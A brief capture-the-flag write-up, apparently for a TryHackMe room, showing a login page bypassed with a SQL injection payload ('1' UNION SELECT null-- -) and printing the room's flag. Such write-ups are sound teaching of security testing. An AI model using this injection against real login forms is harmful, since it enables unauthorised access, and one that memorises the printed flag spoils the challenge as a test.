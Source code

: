 # Lesson Learned? Write-up

<img src="https://github.com/user-attachments/assets/3c795194-b26b-4724-9ba2-d30ca7cf7680" width="200" height="200">

Login page:

![image](https://github.com/user-attachments/assets/b7c2fa2c-f758-40d6-a77a-fd5e9254256b)

SQL injection 

If you use the wrong payload, you will get an error and have to restart the machine.

Payload:

    1' UNION SELECT null-- -

![image](https://github.com/user-attachments/assets/357365bf-b255-4159-ac88-1ac588e6be81)

![image](https://github.com/user-attachments/assets/c036fc4b-343e-4c33-b143-4b3f2d286b0c)

FLAG:

    THM{aab02c6b76bb752456a54c80c2d6fb1e}
